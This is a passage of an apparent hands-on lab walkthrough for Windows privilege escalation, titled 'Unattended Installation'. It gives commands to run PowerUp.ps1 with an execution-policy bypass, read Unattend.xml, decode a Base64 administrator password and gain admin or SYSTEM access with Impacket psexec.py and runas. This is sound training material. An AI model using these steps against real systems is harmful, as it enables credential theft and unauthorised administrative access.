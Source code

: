 ```shell
# Decode the password from Base64 format to reveal the plaintext credentials.
base64 -d password.txt <optional_output_file> # Example decoded password: Admin@123

# STEP 9: Validate the extracted credentials using PsExec. If the password hasn't been changed since installation, you can attempt authentication.
# Use Impacket's PsExec tool to execute commands remotely on the compromised machine.
psexec.py Administrator@<target_IP>
<password>  # Enter the decoded password.

# Verify if you successfully gained administrative access.
whoami  # Should return "NT AUTHORITY\SYSTEM" if successful.

# NOTE: In larger networks, administrators often forget to delete the unattended setup configuration files. These files can be a valuable source of credentials if left behind after system setup.
```

### 4.2. Unattended Installation

Your task is to run PowerUp.ps1 Powershell script to find a common Windows privilege escalation flaw that depends on misconfigurations. The PowerSploit post-exploitation framework has been provided on the Windows machine.

**Objective:** Gain access to meterpreter session with high privilege.

**Target Machine**

```shell
# Switch to Attacker Machine and check the current user
whoami

# Run powerup.ps1 Powershell script to find privilege escalation vulnerability
cd .\Desktop\PowerSploit\Privesc\
ls

# Import PowerUp.ps1 script and Invoke-PrivescAudit function
powershell -ep bypass # PowerShell execution policy bypass
. .\PowerUp.ps1
Invoke-PrivescAudit
# We can notice that there is an Unattend.xml file present on the system. Open the Unattend.xml file.
# Unattend.xml: Unattend.xml is an answer file for installation. The files may contain encoded or plain-text credentials and other sensitive information.

# Reading Unattend.xml file
cat C:\Windows\Panther\Unattend.xml

# Decoding administrator password using Powershell
$password='QWRtaW5AMTIz'
$password=[System.Text.Encoding]::UTF8.GetString([System.Convert]::FromBase64String($pa
ssword))
echo $password

# We are running a command prompt as an administrator user using discover credentials
runas.exe /user:administrator cmd # Enter the password, e.g. Admin@123
whoami
# We are running cmd.exe as an administrator
```
